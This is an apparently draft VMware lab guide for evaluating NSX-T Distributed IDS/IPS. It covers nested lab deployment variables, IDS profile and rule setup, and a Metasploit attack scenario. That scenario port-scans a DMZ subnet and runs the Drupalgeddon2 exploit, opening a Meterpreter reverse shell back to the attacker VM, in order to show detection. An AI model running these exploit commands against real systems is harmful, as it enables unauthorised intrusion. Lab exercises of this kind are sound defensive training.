






# NSX-T Distributed IDS/IPS Proof of Value Lab

## Table of Contents

* [Description](#description)
* [Changelog](#changelog)
* [Requirements](#requirements)
* [FAQ](#faq)
* [Configuration](#configuration)
* [Logging](#logging)
* [Sample Execution](#sample-execution)
    * [Lab Deployment Script](#lab-deployment-script)

## Description
The goal of this Proof of Value (PoV) is to allow customers to get hands-on experience with the NSX Distributed IDS/IPS. The expectation from people participating in the PoC is that they will complete the exercises outline in this guide in order to become familair with the key capabilities offered by the NSX Distributed IDS/IPS. While not the focus of this PoV guide, particpants will also gain basic experience with the Distributed Firewall and other NSX capabilities during this PoV process. 

While this PoV guide is quite prescriptive, participants can choose to modify any part of the workflow as desired. The guide is primarily focused on getting customers familiar with IDS, hence the deployment of the lab environment and rest of the configuration is automated through the use of a provided PowerShell script. After meeting the-requisites and running the script, a fully configured nested NSX-T environment is available to particpants, including a number of attacker and victim workload which are used as part of the IDS/IPS exercises. 

This script makes it very easy for anyone to deploy a nested vSphere vSphere lab environment for learning and educational purposes. All required VMware components (ESXi, vCenter Server, NSX Unified Appliance and Edge) are automatically deployed, attacker and multiple victim workloads are deplyed, and NSX-T networking configuration is applied in order to anyone to start testing the NSX Distributed IDS/IPS as soon as the deploment is completed. 

Below is a diagram of what is deployed as part of the solution and you simply need to have an existing vSphere environment running that is managed by vCenter Server and with enough resources (CPU, Memory and Storage) to deploy this "Nested" lab


* Gray: Pre-requisites (Physical ESXi Server, vCenter managing the server and a Port group to provide connectivity of nested lab environment
* Blue: Management and Edge Components (vCenter, NSX Manager and NSX Edge) Deployed by PowerCLI Script
* Red: External VM running Metasploit and other functions deployed by PowerCLI Script on Physical Environment vCenter 
* Yellow: Nested ESXi hypevisors deployed by PowerCLI Script and managed by nested vCenter
* Purple: vSAN datastore across 3 nested ESXi hypervisors configured by PowerCLI Script
* Green: NSX Overlay DMZ Segment and vulnerable Web-VMs connected to it. Segment created and VMs deployed by PowerCLI Script.
* Orange: NSX Overlay Internal Segment and vulnerable App-VMs connected to it. Segment created and VMs deployed by PowerCLI Script.

## Disclaimer
This lab provides and leverages common pen-test tools including Metasploit as well as purposfully vulnerable workloads built using Vulhub (https://github.com/vulhub/vulhub) . Please only use these tools for the intended purpose of completing the PoC, isolate the lab enviornment properly from any other environment and discard when the PoC has been completed.

## Changelog

* **07/8/2020**
  * Intial partial draft of the guide

## Requirements
* vCenter Server running at least vSphere 6.7 or later
    * If your physical storage is vSAN, please ensure you've applied the following setting as mentioned [here](https://www.virtuallyghetto.com/2013/11/how-to-run-nested-esxi-on-top-of-vsan.html)
* Resource Requirements
    * Compute
        * Single Physical host running at least vSphere 6.7 or later
        * Ability to provision VMs with up to 8 vCPU
        * Ability to provision up to 64 GB of memory
    * Network
        * Single pre-configured Standard or Distributed Portgroup (Management VLAN) used to deploy all VMs In the example config, VLAN-194 is used as this isngle port-group
            * 8 x IP Addresses for VCSA, ESXi, NSX-T Manager, Edge VM Management, Edge VM Uplink and External VM
            * 4 x IP Addresses for TEP (Tunnel Endpoint) interfaces on ESXi and Edge VM
            * 1 x IP Address for T0 Static Route (optional)
            * All IP Addresses should be able to communicate with each other. These can all be in the same subnet (/27). In the example configuration provided the 10.114.209.128/27 subnet is used for all these IP addresses/interfaces: vCenter, NSX Manager Managenet Interface, T0 Router Uplink, Nested ESXi VMKernel and TEP interfaces (defined in IP pool), External VM.
    * Storage
        * Ability to provision up to 1TB of storage

* Preferrably, the deployed NSX Manager should have Internet access in order to download the lastest set of IDS/IPS signatures.
* Desktop (Windows, Mac or Linux) with latest PowerShell Core and PowerCLI 12.0 Core installed. See [ instructions here](https://blogs.vmware.com/PowerCLI/2018/03/installing-powercli-10-0-0-macos.html) for more details
* vSphere 7 & NSX-T OVAs:
    * [vCenter Server Appliance 7.0.0B] (https://my.vmware.com/group/vmware/downloads/details?downloadGroup=VC700B&productId=974&rPId=47905)
    * [NSX-T Manager 3.0.1 OVA](https://my.vmware.com/group/vmware/downloads/details?downloadGroup=NSX-T-301&productId=982&rPId=48086)
    * [NSX-T Edge 3.0.1 for ESXi OVA]((https://my.vmware.com/group/vmware/downloads/details?downloadGroup=NSX-T-301&productId=982&rPId=48086)
    * [Nested ESXi 7.0 OVA - Build 15344619](https://download3.vmware.com/software/vmw-tools/nested-esxi/Nested_ESXi7.0_Appliance_Template_v1.ova)
    
> **Not:e**: if you are not entitled or not able to access the above links, you can download a free trial and obtain a license for all of the above through https://www.vmware.com/try-vmware.html 

## Intended Audience
This PoV guide is intended for existing and future NSX customers who want to evaluate the NSX Distributed IDS/IPS functionality. Ideally, this PoC involves people covring these roles:

* CISO Representative
* Data Center Infrastructure Team
* Network Architects
* Security Architects
* Security Operations Center Analyst
* Enterprise Applicatoin Owner

## Resources commitment and suggsted timeline
The expected time commitment to complete the PoV process is about 5 hours. This includes the time it takes for the automated deployment of the nested lab environment. We suggest to split up this time across 2 week. The below table provides an estimate of the time it takes to complete each task:

| Task  | Estimated Time to Complete | Suggested Week | 
| ------------- | ------------- | ------------- |
| Customize Deployment Script Variables  | 30 minutes  | Week 1 | 
| Run Deployment Script  | 90 minutes | Week 1 | 
| Verify Lab Deployment  | 30 minutes | Week 1 | 
| Initial IDS/IPS Configuration  | 30 minutes | Week 1 | 
| Simple Attack Scenario | 30 minutes | Week 2 | 
| Lateral Attack Scenario | 30 minutes | Week 2 | 
| Advanced Attack and configuration tuning | 30 minutes | Week 2 | 
| Apply micro-segmentation to limit the attack surface | 30 minutes | Week 2 | 

## Support during the PoV Process

Existing NSX customers should reach out to their account team for support during the PoV process, or to the NSX PoV lead that has been assigend to the customer. In additon, any participant can reach out to x@vmware.com for support during the PoV.

## Customize Deployment Script Variables
**Estimated Time to Complete: 60 minutes**

Before you can run the script, you will need to edit the script and update a number of variables to match your deployment environment. Details on each section is described below including actual values used my sample lab environment. The variables that need to adjusted are called out specifically. Other variables can in almost all cases be left to their default values.

In this example below, I will be using a single /27 subnet(10.114.209.128/27)  on a single port-group (VLAN-194) which all the VMs provisioned by the automation script will be connected to. It is expected that you will have a similar configuration which is the most basic configuration for PoV and testing purposes.

| Name                       | IP Address                     | Function                     |
|----------------------------|--------------------------------|------------------------------|
| pov-vcsa                   | 10.114.209.143                 | vCenter Server               |
| Nested_ESXi_1              | 10.114.209.140                 | ESXi                         |
| Nested_ESXi_2              | 10.114.209.142                 | ESXi                         |
| Nested_ESXi_3              | 10.114.209.143                 | ESXi                         |
| pov-nsx                    | 10.114.209.149                 | NSX-T Manager                |
| pov-nsx-edge               | 10.114.209.150                 | NSX-T Edge                   |
| T0-uplink                  | 10.114.209.148                 | T0 GW Interface IP           |
| TunnelEndpointGateway      | 10.114.209.129                 | Existing default GW          |
| T0 Static Default GW       | 10.114.209.129                 | Existing default GW          |
| TEP Pool                   | 10.114.209.144-10.114.209.147  | Tunnel Endpoint IPs          |
| External VM                | 10.114.209.151                 | Attacker (Metasploit) VM     |


This section describes the credentials to your physical environment vCenter Server in which the nested lab environment will be deployed to. Make sure to adjust **all** of the below variables to match your physical environment vCenter:
```console
$VIServer  = "vcenter-north.lab.svanveer.pa"
$VIUsername = "administrator@vsphere.local"
$VIPassword = "VMware1!"
```

This section describes the location of the files required for deployment. Update the below variables with the actual **location of the downloaded OVAs/extracted files** on the local machine you run this PowerShell script from

```console
$NestedESXiApplianceOVA = "C:\Users\stijn\downloads\ESXI\Nested_ESXi7.0_Appliance_Template_v1.ova"
$VCSAInstallerPath = "C:\Users\stijn\downloads\VCSA\VMware-VCSA-all-7.0.0-16189094"
$NSXTManagerOVA = "C:\Users\stijn\downloads\NSXMgr\nsx-unified-appliance-3.0.0.0.0.15946739.ova"
$NSXTEdgeOVA = "C:\Users\stijn\downloads\NSXEdge\nsx-edge-3.0.0.0.0.15946012.ova"
```
> **Note:** The path to the VCSA Installer must be the extracted contents of the ISO


This section defines the number of Nested ESXi VMs to deploy along with their associated IP Address(s). The names are merely the display name of the VMs when deployed. At a minimum, you should deploy at least three hosts, but you can always add additional hosts and the script will automatically take care of provisioning them correctly. Adjust the **IP addresses** for the 3 below hosts. For simplicity, these IP addresses should part of the same Management subnet for the nested vCenter and NSX Manager. 
```console
$NestedESXiHostnameToIPs = @{
    "Nested_ESXi_1" = "10.114.209.140" 
    "Nested_ESXi_2" = "10.114.209.141" 
    "Nested_ESXi_3" = "10.114.209.142" 
}
```

This section describes the resources allocated to each of the Nested ESXi VM(s). Depending on your usage, you may need to increase the resources. For Memory and Disk configuration, the unit is in GB. The values set are the minimum required for this lab. **Default values are sufficient.**
```console
$NestedESXivCPU = "4"
$NestedESXivMEM = "12" #GB
$NestedESXiCachingvDisk = "8" #GB
$NestedESXiCapacityvDisk = "100" #GB
```

This section describes the VCSA deployment configuration such as the VCSA deployment size, Networking & SSO configurations. If you have ever used the VCSA CLI Installer, these options should look familiar. Adjust the **IP address** and **Prefix (Subnet Mask Bits)** to match the desired IP address of the nested ESXi. Use the Same IP address as the hostname, unless you can add an FQDN entry to your DSN server. 
```console
$VCSADeploymentSize = "tiny"
$VCSADisplayName = "pov-vcsa"
$VCSAIPAddress = "10.114.209.143" 
$VCSAHostname = "10.114.209.143" #Use IP if you don't have valid DNS. 
$VCSAPrefix = "27"
$VCSASSODomainName = "vsphere.local"
$VCSASSOPassword = "VMware1!"
$VCSARootPassword = "VMware1!"
$VCSASSHEnable = "true"
```

This section describes the location as well as the generic networking settings applied to Nested ESXi VCSA & NSX VMs. The following variable should be defined by users **VMDataceter**, **VMCluster**, **VMNetwork** and **VMdatastore**. Replace all the **IP addresses** and **netmaks** with the appropriate IP addresses/netmask. 
```console
$VMDatacenter = "PaloAlto-Main"
$VMCluster = "Physical-3"
$VMNetwork = "VLAN-194"
$VMDatastore = "NFS"
$VMNetmask = "255.255.255.224"
$VMGateway = "10.114.209.129"
$VMDNS = "10.114.222.70"
$VMNTP = "10.20.145.1"
$VMPassword = "VMware1!"
$VMDomain = "lab.svanveer.pa"
$VMSyslog = "10.114.222.70" # This should be the same IP address as the External VM IP address
$VMFolder = "NSX PoV"

# Applicable to Nested ESXi only
$VMSSH = "true"
$VMVMFS = "false"
```

This section describes the configuration of the new lab vCenter Server from the deployed VCSA. **Default values are sufficient.**
```console
$NewVCDatacenterName = "PoV-Datacenter"
$NewVCVSANClusterName = "Workload-Cluster"
$NewVCVDSName = "PoV-VDS"
$NewVCDVPGName = "DVPG-Management Network"
```

This section describes the PoV Configurations. **Default values are sufficient.**
```console
# PoV Configuration
$StoragePolicyName = "PoV-gold-storage-policy"
$StoragePolicyTagCategory = "PoV-demo-tag-category"
$StoragePolicyTagName = "PoV-demo-storage"
$DevOpsUsername = "devops"
$DevOpsPassword = "VMware1!"
```

This section describes the NSX-T configurations, the following variables must be defined by users and the rest can be left as defaults.
    **$NSXLicenseKey**, **$NSXVTEPNetwork**, **$T0GatewayInterfaceAddress**, **$T0GatewayInterfaceStaticRouteAddress** and the **NSX-T Manager**, **TEP IP Pool** and **Edge** Sections
```console
# NSX-T Configuration
NSXLicenseKey = "xxxxx-xxxxx-xxxxx-xxxxx-xxxxx" #Replace with valid NSX License key
$NSXRootPassword = "VMware1!VMware1!"
$NSXAdminUsername = "admin"
$NSXAdminPassword = "VMware1!VMware1!"
$NSXAuditUsername = "audit"
$NSXAuditPassword = "VMware1!VMware1!"
$NSXSSHEnable = "true"
$NSXEnableRootLogin = "true"
$NSXVTEPNetwork = "VLAN-194" # Replace with the appropriate pre-existing port-group 

# Transport Node Profile
$TransportNodeProfileName = "PoV-Transport-Node-Profile"

# TEP IP Pool  - Replace IP addresses to match the physical environment subnet you've allocated (i.e management network) 
$TunnelEndpointName = "TEP-IP-Pool"
$TunnelEndpointDescription = "Tunnel Endpoint for Transport Nodes"
$TunnelEndpointIPRangeStart = "10.114.209.144" 
$TunnelEndpointIPRangeEnd = "10.114.209.147"
$TunnelEndpointCIDR = "10.114.209.128/27" 
$TunnelEndpointGateway = "10.114.209.129 #Default Gateway of the Management Network

# Transport Zones - Default Values are sufficient
$OverlayTransportZoneName = "TZ-Overlay"
$OverlayTransportZoneHostSwitchName = "nsxswitch"
$VlanTransportZoneName = "TZ-VLAN"
$VlanTransportZoneNameHostSwitchName = "edgeswitch"

# Network Segment - Default Values are sufficient
$NetworkSegmentName = "PoV-Segment"
$NetworkSegmentVlan = "0"

# T0 Gateway
$T0GatewayName = "PoV-T0-Gateway"
$T0GatewayInterfaceAddress = "10.114.209.148" # should be a routable address
$T0GatewayInterfacePrefix = "27"
$T0GatewayInterfaceStaticRouteName = "PoV-Static-Route"
$T0GatewayInterfaceStaticRouteNetwork = "0.0.0.0/0"
$T0GatewayInterfaceStaticRouteAddress = "10.114.209.129" # This can be set to an invalid IP address to ensure the vulnerable workloads remain isolated from the rest of the environment

# Uplink Profiles  - Default Values are sufficient
$ESXiUplinkProfileName = "ESXi-Host-Uplink-Profile"
$ESXiUplinkProfilePolicy = "FAILOVER_ORDER"
$ESXiUplinkName = "uplink1"

$EdgeUplinkProfileName = "Edge-Uplink-Profile"
$EdgeUplinkProfilePolicy = "FAILOVER_ORDER"
$EdgeOverlayUplinkName = "uplink1"
$EdgeOverlayUplinkProfileActivepNIC = "fp-eth1"
$EdgeUplinkName = "tep-uplink"
$EdgeUplinkProfileActivepNIC = "fp-eth2"
$EdgeUplinkProfileTransportVLAN = "0" # Do not changes this VLAN
$EdgeUplinkProfileMTU = "1600"

# Edge Cluster  - Default Values are sufficient
$EdgeClusterName = "Edge-Cluster-01"

# NSX-T Manager Configurations 
# NSX-T Manager Configurations
$NSXTMgrDeploymentSize = "small"
$NSXTMgrvCPU = "6" #override default size
$NSXTMgrvMEM = "24" #override default size
$NSXTMgrDisplayName = "pov-nsx-manager"
$NSXTMgrHostname = "10.114.209.149" # Replace with the desired IP address for the NSX Manager
$NSXTMgrIPAddress = "10.114.209.149" # Replace with the desired IP address for the NSX Manager

# NSX-T Edge Configuration
$NSXTEdgeDeploymentSize = "medium"
$NSXTEdgevCPU = "8" #override default size
$NSXTEdgevMEM = "32" #override default size
$NSXTEdgeHostnameToIPs = @{
    "pov-nsx-edge" = "10.114.209.150" #Replace with the desired IP address for the NSX Edge Management Interface
}
```

## Run Deployment Scrip
**Estimated Time to Complete: 60 minutes**
Once you have saved your changes, you can now run the PowerCLI script as you normally would.

Here is a screenshot of running the script if all basic pre-reqs have been  met and the confirmation message before starting the deployment:
[INSERT SCREENSHOT OF SCRIPT EXECUTION]

Here is an example output of a complete deployment:

[INSERT SCREENSHOT OF SCRIPT COMPLETION]

> **Note**: Deployment time will vary based on underlying physical infrastructure resources. On average, it can take between 45 minutes to 90 minutes. 

## Verify Lab Deployment
**Estimated Time to Complete: 30 minutes**

Once the Deployment Script has completed the installation and setup process. Your lab environment is fully ready to start testing the NSX Distributed IDS/IPS. Verify vCenter and NSX has been configured as intended.

**Physical Infrastructure Host/vCenter**: Login to the physial environment vcenter and Verify 6 VMs have been deployed, are up and running and are connected to the appropriate port-group: 
* 3 nested ESXI
* 1 NSX Manager
* 1 NSX Edge 
* 1 vCenter



**Lab vCenter**: Login to lab vCenter and verify the cluster of 3 nested ESXi appliances is functional and 4 vulnerable VMs have been deployed on the cluster:
* APP-1-WEB-TIER connected to **DMZSegment** Portgroup
* APP-2-WEB-TIER connected to **DMZSegment** Portgroup
* APP-1-APP-TIER connected to **InternalSegment** Portgroup
* APP-2-APP-TIER connected to **InternalSegment** Portgroup

**Lab NSX Manager**
1.	In the NSX Manager UI, navigate to Inventory -->  Virtual Machines
2. Click **View Details**
2. Note the IP addresses for the 4 VMs that were deployed




[TO BE COMPLETED]

## Initial IDS/IPS Configuration
**Estimated Time to Complete: 30 minutes**

Now that we have verified the lab has been deployed correctly, basic NSX networking configuration has been applied and the appropriate vunlerable application VMs have been deployed, we can configure the NSX Distributed IDS/IPS.

**Create Groups**
1.	In the NSX Manager UI, navigate to Inventory -->  Groups 
2. Click **ADD GROUP**
3.	Create a Group with the below parameters. Click Save when done.
    * Name **Production Applications**
    * Compute Members: Membership Criteria: **Virtual Machine Tag Equals Production Scope Environment**
         
3.	Create another Group with the below parameters. Click Save when done.
    * Name **Development Applications**
    * Compute Members: Membership Criteria: **Virtual Machine Tag Equals Development Scope Environment**
        
4. Confirm previously deployed VMs became a member of appropriate groups due to applied tags. Click **View Members** for the 2 groups you created and confirm
    * Members of **Development Applications**: **APP-2-APP-TIER**, **APP-2-WEB-TIER**
    * Members of **Production Applications**: **APP-1-APP-TIER**, **APP-1-WEB-TIER**
        
    
> **Note**: Tags were applied to the workloads through the Powershell script used to deploy the lab environment.

**Enable Intrusion Detection**
1.	In the NSX Manager UI, navigate to Security -->  Distributed IDS --> Settings
2.	Under Enable Intrusion Detection for Cluster(s), set **Workload-Cluster** to Enabled


NSX can automatically update it’s IDS signatures by checking our cloud-based service. By default, NSX manager will check once per day and we publish new signature update versions every two week (with additional non-scheduled 0-day updates). NSX can also be configured to optionally automatically apply newly updated signatures to all hosts that have IDS enabled.

**Enable Automated Signature Update propagation**
1.	Under Intrusion Detection Signatures, select **Auto Update new versions (recommended)** in order to propagate the latest signature updates from the cloud to the distributed IDS instances
2.	Optionally, click **View and Change Versions** and expand one of the signature sets to see what signatures have been added/updated/disabled in this particular release 

> **Note**: if a proxy server is configured for NSX Manager to access the internet, click Proxy Settings and complete the configuration


**Create IDS Profiles**
1.	In the NSX Manager UI, navigate to Security -->  Distributed IDS --> Profiles
2. Click **ADD IDS PROFILE**
3.	Create an IDS Profile with the below parameters. Click Save when done.
    * Name **Production**
    * Signatures to Include: **Critical**, **High**, **Medium**
3.	Create another IDS Profile with the below parameters. Click Save when done.
    * Name **Development**
    * Signatures to Include: **Critical**, **High**



**Create IDS Rules**
1.	In the NSX Manager UI, navigate to Security -->  Distributed IDS --> Rules
2. Click **ADD POLICY**
3.	Create an IDS Policy named **NSX PoV** .
4. Check the checkbox for the policy you just created and click **ADD RULE**.
5. Add an IDS Rule with the following parameters
    * Name **Production Applications IDS Policy**
    * IDS Profile **Production**
    * Applied to **Production Applicatons** (group)
    * Leave other settings to defaults
6. Add another IDS Rule with the following parameters
    * Name **Development Applications IDS Policy**
    * IDS Profile **Development**
    * Applied to **Development Applicatons** (group)
    * Leave other settings to defaults
7. Click **Publish**



You have now successfully configured the NSX Distributed IDS/IPS ! In the next exercise, we will run through a basic attack scenario to confirm intrusion attemtps are detected and get familair with the NSX IDS/IPS Events view.

## Simple Attack Scenario
**Estimated Time to Complete: 30 minutes**

In this exercise, we will use **Metasploit** to launch a simple exploit against the **Drupal** service runnning on the **App1-WEB-TIER VM** and confirm the NSX Distributed IDS/IPS was able to detect this exploit attempt.

**Open a SSH/Console session to the External VM**
1.	If your computer has access to the IP address you've assigend to the **External VM** (10.114.209.151 in my example), open your ssh client and initiate a session to it. Login with the below credentials. 
    * Username **vmware**
    * Password **VMware1!**
2. **Alternatively**, if your computer does not have access to the **External VM** directly, you can access the VM console from the  physical environment vCenter Web-UI. 

**Initiate port-scan against the DMZ Segment**
1. Type  **sudo msfconsole** to launch **Metasploit**. Follow the below steps to initiate a portscan and discover any running services on the **DMZ** subnet. Hit **enter** between every step. 
    * Type **use auxiliary/scanner/portscan/tcp** to select the portscan module
    * Type **set THREADS 50** 
    * Type **set RHOSTS 192.168.10.0/24** to define the subnets to scan. These should match the **DMZ** Subnet
    * Type **set PORTS 8080,5984** to define the ports to scan (Drupal and CouchDB servers)
    * Type **run**

```console
vmware@ubuntu:~$sudo msfconsole

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v5.0.95-dev                          ]
+ -- --=[ 2038 exploits - 1103 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Tired of setting RHOSTS for modules? Try globally setting it with setg RHOSTS x.x.x.x
msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > set THREADS 50
THREADS => 50
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.10.0/24
RHOSTS => 192.168.10.0/24, 192.168.20.0/24
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 8080,5984
PORTS => 8080,5984
msf5 auxiliary(scanner/portscan/tcp) > run
```
2.	You should see the below results when the scan completes
```console
[*] 192.168.10.0/24:      - Scanned  28 of 256 hosts (10% complete)
[*] 192.168.10.0/24:      - Scanned  52 of 256 hosts (20% complete)
[+] 192.168.10.100:       - 192.168.10.100:5984 - TCP OPEN
[+] 192.168.10.100:       - 192.168.10.100:8080 - TCP OPEN
[+] 192.168.10.101:       - 192.168.10.101:5984 - TCP OPEN
[+] 192.168.10.101:       - 192.168.10.101:8080 - TCP OPEN
[*] 192.168.10.0/24:      - Scanned  77 of 256 hosts (30% complete)
[*] 192.168.10.0/24:      - Scanned 103 of 256 hosts (40% complete)
[*] 192.168.10.0/24:      - Scanned 129 of 256 hosts (50% complete)
[*] 192.168.10.0/24:      - Scanned 154 of 256 hosts (60% complete)
[*] 192.168.10.0/24:      - Scanned 180 of 256 hosts (70% complete)
[*] 192.168.10.0/24:      - Scanned 205 of 256 hosts (80% complete)
[*] 192.168.10.0/24:      - Scanned 233 of 256 hosts (91% complete)
[*] 192.168.10.0/24:      - Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```

> **Note**: To reduce the number of OVAs needed for this PoV, each workload VM deployed runs both a vulnerable **Drupal** and a vulnerable **CouchDB** service

**Initiate DrupalGeddon2 attack against App1-WEB-TIER VM**
In order to launch the **Drupalgeddon2** exploit against the **App1-WEB-TIER VM**, you can either manually configure the **Metasploit** module, or edit and run a pre-defined script. If you want to go with the script option, skip to step #3 and continue from there. 

1. To initiate the attack manually, use the Metasploit console you opened earlier. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/unix/webapp/drupal_drupalgeddon2** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **set RPORT 8080** to define the port the vulnerable Drupal service runs on. 
    * Type **exploit** to initiate the exploit attempt
2. Skip step #3 and #4, and continue with step #5

```console

msf5 auxiliary(scanner/portscan/tcp) > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 8080
RPORT => 8080
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit
```
3. If you want to go with the script option instead, run **sudo nano attack1.rc** and type **VMware1!** when asked for the password. 
    * Confirm that the **RHOST** line IP address matches with the IP address of **App1-WEB-TIER VM** you saw in the NSX VM Inventory. 
    * Change this IP address if needed. 
    * Save your changes and exit **nano**
4. Type **sudo ./attack1.sh** to initiate the Metasploit script and Drupalgeddon exploit. Next, go to step #6
    
5. Confirm the vulnerable server was sucessfully exploited and a **Meterpreter** reverse TCP session was established from **App1-WEB-TIER VM** back to the **Extermal VM**

```console
[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Sending stage (38288 bytes) to 192.168.10.101
[*] Meterpreter session 1 opened (10.114.209.151:4444 -> 192.168.10.101:45032) at 2020-07-20 19:37:29 -0500
```
6. **Optionally**, you can now interact with the Meterpreter session. For instance, you can run the below commands to gain more inforation on the exploited **App1-WEB-TIER VM**
    * Type **sysinfo** to learn more about the running OS

```console
meterpreter > sysinfo
Computer    : 273e1700c5be
OS          : Linux 273e1700c5be 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter > ?
```
7. When you are done, type exit -z to shut down the Meterpreter session

**Confirm IDS/IPS Events show up in the NSX Manager UI**
1.	In the NSX Manager UI, navigate to Security -->  Security Overview
2. Under the **Insights** tab, confirm you see a number of attempted intrusion against the  **APP-1-WEB-TIER** workload

3. Click  **APP-1-WEB-TIER** to open a filtered event view for this workload. 
4. Confirm 2 signatures have fired; one exploit-specific signature for **DrupalGeddon2** and one broad signature indicating the use of a **Remote Code execution via a PHP script**

> **Note**: You can zoom in/out to specific times using the timeline slider, filter the Events view based on Severity by selecting the desired severities or filter based on other criteria such as Attacker Target, Attack Type, CVSS, Product Affected or VM Name by using the **Appl Filter** box.
5. Expand both of the events by clicking the **>** icon on the left side next to severity
6.  For the  **DruppalGeddon2** event:
  *  Confirm that the IP addresses of the attacker and victim match with the **External VM** and **APP-1-WEB-TIER VM** respectlively.
  *  click **View Intrusion History** to see details about the exploit attempts. You may see multiple attemts (from different ports) as Metasploit initiated multiple connections
  *  this event contains vulnerability details including the **CVSS score** and **CVE ID**. Click the **2018-7600** CVE link to open up the **Mittre** CVE page and learn more about the vulnerability.
7. **Optionally**, you can check the  obove details as well for the secondary event (except for the vulnerability details, which are not applicable to this more general signature)
  
> **Note**: **Product Affected** incicates the service vulnerable to the exploit a signature is detecting. In this case, you should see **Drupal_Server** as being vulnerable to the **DruppalGeddon2** exploit and **Web_server_Applications** being affected by the more generic **Remote Code Execution** attmept. 

